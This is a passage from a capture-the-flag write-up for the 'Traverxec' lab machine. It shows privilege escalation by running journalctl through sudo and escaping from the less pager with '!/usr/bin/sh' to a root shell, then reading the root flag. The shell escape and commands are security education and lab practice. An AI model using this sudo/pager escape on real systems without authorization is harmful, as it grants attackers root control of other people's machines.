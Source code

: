 ```
# /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2020-01-04 21:35:18 EST, end at Mon 2020-01-06 00:31:04 EST
Jan 05 16:57:27 traverxec su[1568]: pam_unix(su:auth): authentication failure; l
Jan 05 16:57:29 traverxec su[1568]: FAILED SU (to david) www-data on pts/0
Jan 05 18:35:21 traverxec sudo[1683]: pam_unix(sudo:auth): authentication failur
Jan 05 23:22:06 traverxec su[1879]: pam_unix(su:auth): authentication failure; l
Jan 05 23:22:08 traverxec su[1879]: FAILED SU (to david) www-data on pts/1
```

I jump into gtfobins and do a search on journalctl as a potential path to a sudo shell:
https://gtfobins.github.io/gtfobins/journalctl/

Turns out it can be used this way - also TIL it defaults to the less pager

So once you run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`, you are effectively in the less pager.  Reading through its man page, we see that you can use `!` followed by a shell path to drop directly into a new shell.  Since less was opened by sudo, it drops us into a root shell:  

```
david@traverxec:~/bin$                                                          
-- Logs begin at Sat 2020-01-04 21:35:18 EST, end at Mon 2020-01-06 00:34:47 EST 
Jan 05 16:57:27 traverxec su[1568]: pam_unix(su:auth): authentication failure; l
Jan 05 16:57:29 traverxec su[1568]: FAILED SU (to david) www-data on pts/0
Jan 05 18:35:21 traverxec sudo[1683]: pam_unix(sudo:auth): authentication failur
Jan 05 23:22:06 traverxec su[1879]: pam_unix(su:auth): authentication failure; l
Jan 05 23:22:08 traverxec su[1879]: FAILED SU (to david) www-data on pts/1
!/usr/bin/sh
# whoami
root
```
root hash was easy to find after that:
```
# whoami
root
# cd /root
# ls
nostromo_1.9.6-1.deb  root.txt
# cat root.txt
9aa36a6d76f785dfd320a478f6e0d906
```
